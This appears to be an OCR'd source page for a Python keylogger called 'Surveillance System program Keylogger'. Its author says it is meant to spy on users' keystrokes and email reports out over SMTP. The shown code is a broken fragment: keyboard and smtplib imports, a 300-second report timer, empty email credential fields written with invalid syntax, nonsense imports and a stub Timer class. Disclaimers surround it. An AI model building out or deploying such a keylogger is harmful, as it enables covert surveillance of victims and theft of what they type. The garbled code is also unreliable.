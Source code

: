 
When you use this program, I assume absolutely no responsibility if this program damages your devices.

This program is offered to you under the GUI Open Source License Agreement 3.0.

Instructions for use are below.

Edit this code with PyCharm or Python as it doesn't seem to work for me, then reply with an issue report:

"""Welcome to the Surveillance System program Keylogger."""

"""This script is designed and programmed by Nickolas De Been (yes, you pronounce
the whole surname as a single word in case your wondering) to spy on the inputs of users
it is used against, such as criminals for example."""

"""If you have any inquiries, please contact me at boesoul23@gmail.com, and I'll send you an
updated copy of this script."""

"""WARNING: USE THIS AT YOUR OWN RISK!"""

"""Hacking of any nature is illegal unless your following the regulations of the law in the
country in which you live."""

"""I am not responsible for any damage you do to a person's device, or your own device 
for this matter."""

"""Do not direct complaints towards me in any fashion if you indeed damage your device
(looking at you, Europe XD)."""

import interval as interval
import self as self
import keyboard

"""For keyloggers when the keyboard is used"""

import smtplib

"""For sending an email or emails using the SMTP protocol (Outlook)."""

"""Timer is to make a method of runs after an `interval` amount of time."""

from datetime import datetime
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

"""You may adjust the report sending timer below to the value you wish."""

SEND_REPORT_EVERY = 300
EMAIL_ADDRESS = "" <- """Your Email address goes here (delete this after you have typed your Email address)."""
EMAIL_PASSWORD = "" <- """Your password goes here (delete this after you have typed in your password)."""


class Timer:
    def start(self):
        pass

